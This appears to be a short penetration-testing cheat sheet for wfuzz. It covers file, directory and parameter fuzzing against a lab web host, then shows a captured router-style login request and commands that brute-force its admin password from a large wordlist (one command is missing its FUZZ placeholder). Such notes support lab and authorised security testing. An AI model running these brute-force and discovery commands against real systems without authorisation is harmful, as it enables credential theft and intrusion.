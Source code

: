 # Wfuzz

export URL="http://zda:80/FUZZ"


File Discovery

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"


Directory Discovery

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 


Parameter Discovery - check for files on the webserver that can be used maliciously
export URL="http://zda:80/index.php?FUZZ=data"


fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 


wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ


Fuzz the password in Burp


POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login


RUn this command

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp

you can restrict file size of th erequest to remove erronious responses wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin
